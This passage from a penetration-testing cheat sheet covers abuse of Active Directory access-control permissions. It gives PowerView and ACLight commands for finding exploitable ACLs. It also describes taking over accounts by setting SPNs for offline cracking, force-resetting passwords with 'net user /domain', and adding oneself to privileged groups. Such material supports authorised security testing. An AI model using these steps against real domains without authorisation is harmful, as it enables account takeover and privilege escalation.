 ````

#### Restart DNS
```
Sc \\<dns server> stop dns
Sc \\<dns server> start dns
```

## Access Control List
- It is possible to abuse permissions (ACL's)
- `ObjectDN` = The object the permissions apply to
- `ActiveDirectoryRight` == Permissions
- `IdentityReferenceName` == Object who has the permissions
- Edge cases https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html

#### Scan for ACL permissions
```
Find-InterestingDomainAcl -ResolveGUIDS -Domain <DOMAIN>
Find-InterestingDomainAcl -ResolveGUIDS -Domain <DOMAIN> | Select-Object ObjectDN, ActiveDirectoryRights, IdentityreferenceName
```
- Check every owned user in bloodhoud

#### Aclight2 scan
- https://github.com/cyberark/ACLight
```
Import-Module ACLight2.psm1
Start-ACLAnalysis
```

### Specific ACL permissions
#### Scan for specific ACL permissions the user has
```
Find-InterestingDomainAcl -ResolveGUIDS -Domain <DOMAIN> | Select-Object ObjectDN, ActiveDirectoryRights, IdentityreferenceName | Where-Object -Property IdentityreferenceName -Match <USERNAME>

Get-DomainObjectAcl -ResolveGUIDs | ? {$_.SecurityIdentifier -eq "<SID>"} | select-object ObjectDN, ObjectAceType
```

#### Scan for all ACL permissions of the user has on another specific object
- First get the SID of the user you want to check if he has permissions on target user
```
Get-Domainuser <USERNAME> | Select-Object samaccountname, objectsid
Get-DomainObjectAcl -SamAccountName <TARGET USER> -ResolveGUIDs | ? {$_.SecurityIdentifier -eq "<SID>"}
```

### ACL abuses
- In case you have a GenericAll permission on a user, you can:
  - Set a SPN on behalf of that user and crack it (stealthy method)
  - Change his password and log in as that user (not stealthy but immediate access is given)
- Force-ChangePassword privilege can also allow you to change the password of a user

- In case you have a GenericAll permission on a Group, Write permission, Write-Owner permission or Self permission, you can
  - Add yourself to this group, and as a result obtain the privileges that this group possesses.

- In case you have WriteOwner permissions you can add a owner to the object.

### Permissions on a user

#### Generic all / Force Change Password / AllExtendedRights - Reset password of a user
```
net user <USERNAME> <PASSWORD> /domain

````